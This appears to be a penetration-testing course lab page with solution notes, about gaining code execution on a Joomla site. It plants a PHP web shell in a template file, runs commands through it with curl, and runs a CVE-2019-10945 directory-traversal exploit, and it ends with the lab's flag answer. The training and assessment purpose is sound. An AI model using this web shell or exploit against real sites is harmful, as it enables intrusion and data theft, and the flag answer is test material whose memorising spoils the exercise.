 # Attacking Joomla

We now know that we are dealing with a Joomla e-commerce site. If we can gain access, we may be able to land in the client's internal environment and begin enumerating the internal domain environment. Like WordPress and Drupal, Joomla has had its fair share of vulnerabilities against the core application and vulnerable extensions. Furthermore, like the others, it is possible to gain remote code execution if we can log in to the admin backend.

***

### Abusing Built-In Functionality

During the Joomla enumeration phase and the general research hunting for company data, we may come across leaked credentials that we can use for our purposes. Using the credentials that we obtained in the examples from the last section, `admin:admin`, let's log in to the target backend at `http://dev.inlanefreight.local/administrator`. Once logged in, we can see many options available to us. For our purposes, we would like to add a snippet of PHP code to gain RCE. We can do this by customizing a template.

![](https://academy.hackthebox.com/storage/modules/113/joomla\_admin.png)

From here, we can click on `Templates` on the bottom left under `Configuration` to pull up the templates menu.

![](https://academy.hackthebox.com/storage/modules/113/joomla\_templates.png)

Next, we can click on a template name. Let's choose `protostar` under the `Template` column header. This will bring us to the `Templates: Customise` page.

![](https://academy.hackthebox.com/storage/modules/113/joomla\_customise.png)

Finally, we can click on a page to pull up the page source. It is a good idea to get in the habit of using non-standard file names and parameters for our web shells to not make them easily accessible to a "drive-by" attacker during the assessment. We can also password protect and even limit access down to our source IP address. Also, we must always remember to clean up web shells as soon as we are done with them but still include the file name, file hash, and location in our final report to the client.

Let's choose the `error.php` page. We'll add a PHP one-liner to gain code execution as follows.

Code: php

```php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
```

![](https://academy.hackthebox.com/storage/modules/113/joomla\_edited.png)

Once this is in, click on `Save & Close` at the top and confirm code execution using `cURL`.

Attacking Joomla

```shell-session
AIceBear@htb[/htb]$ curl -s http://dev.inlanefreight.local/templates/protostar/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

From here, we can upgrade to an interactive reverse shell and begin looking for local privilege escalation vectors or focus on lateral movement within the corporate network. We should be sure, once again, to note down this change for our report appendices and make every effort to remove the PHP snippet from the `error.php` page.

***

### Leveraging Known Vulnerabilities

At the time of writing, there have been [426](https://www.cvedetails.com/vulnerability-list/vendor\_id-3496/Joomla.html) Joomla-related vulnerabilities that received CVEs. However, just because a vulnerability was disclosed and received a CVE does not mean that it is exploitable or a working public PoC exploit is available. Like with WordPress, critical vulnerabilities (such as those remote code execution) that affect Joomla core are rare. Searching a site such as `exploit-db` shows over 1,400 entries for Joomla, with the vast majority being for Joomla extensions.

Let's dig into a Joomla core vulnerability that affects version `3.9.4`, which our target `http://dev.inlanefreight.local/` was found to be running during our enumeration. Checking the Joomla [downloads](https://www.joomla.org/announcements/release-news/5761-joomla-3-9-4-release.html) page, we can see that `3.9.4` was released in March of 2019. Though it is out of date as we are on Joomla `4.0.3` as of September 2021, it is entirely possible to run into this version during an assessment, especially against a large enterprise that may not maintain a proper application inventory and is unaware of its existence.

Researching a bit, we find that this version of Joomla is likely vulnerable to [CVE-2019-10945](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-10945) which is a directory traversal and authenticated file deletion vulnerability. We can use [this](https://www.exploit-db.com/exploits/46710) exploit script to leverage the vulnerability and list the contents of the webroot and other directories. The python3 version of this same script can be found [here](https://github.com/dpgg101/CVE-2019-10945). We can also use it to delete files (not recommended). This could lead to access to sensitive files such as a configuration file or script holding credentials if we can then access it via the application URL. An attacker could also cause damage by deleting necessary files if the webserver user has the proper permissions.

We can run the script by specifying the `--url`, `--username`, `--password`, and `--dir` flags. As pentesters, this would only be useful to us if the admin login portal is not accessible from the outside since, armed with admin creds, we can gain remote code execution, as we saw above.

Attacking Joomla

```shell-session
AIceBear@htb[/htb]$ python2.7 joomla_dir_trav.py --url "http://dev.inlanefreight.local/administrator/" --username admin --password admin --dir /
 
# Exploit Title: Joomla Core (1.5.0 through 3.9.4) - Directory Traversal && Authenticated Arbitrary File Deletion
# Web Site: Haboob.sa
# Email: research@haboob.sa
# Versions: Joomla 1.5.0 through Joomla 3.9.4
# https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-10945    
 _    _          ____   ____   ____  ____  
| |  | |   /\   |  _ \ / __ \ / __ \|  _ \ 
| |__| |  /  \  | |_) | |  | | |  | | |_) |
|  __  | / /\ \ |  _ <| |  | | |  | |  _ < 
| |  | |/ ____ \| |_) | |__| | |__| | |_) |
|_|  |_/_/    \_\____/ \____/ \____/|____/ 
                                                                       


administrator
bin
cache
cli
components
images
includes
language
layouts
libraries
media
modules
plugins
templates
tmp
LICENSE.txt
README.txt
configuration.php
htaccess.txt
index.php
robots.txt
web.config.txt
```

***

### Moving On

Next, let's take a look at Drupal, which, while it holds a much smaller share of the CMS market, is still used by companies worldwide.

**Questions**

Leverage the directory traversal vulnerability to find a flag in the web root of the http://dev.inlanefreight.local/ Joomla application

```bash
#login with admin:admin
#go to extensions -> templates -> protostart
#choose error.php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
#now save it
curl -s http://dev.inlanefreight.local/templates/protostar/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=id
curl -s http://dev.inlanefreight.local/templates/protostar/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=ls+/var/www/dev.inlanefreight.local
curl -s http://dev.inlanefreight.local/templates/protostar/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=cat+/var/www/dev.inlanefreight.local/flag_6470e394cbf6dab6a91682cc8585059b.txt
j00mla_c0re_d1rtrav3rsal!
```
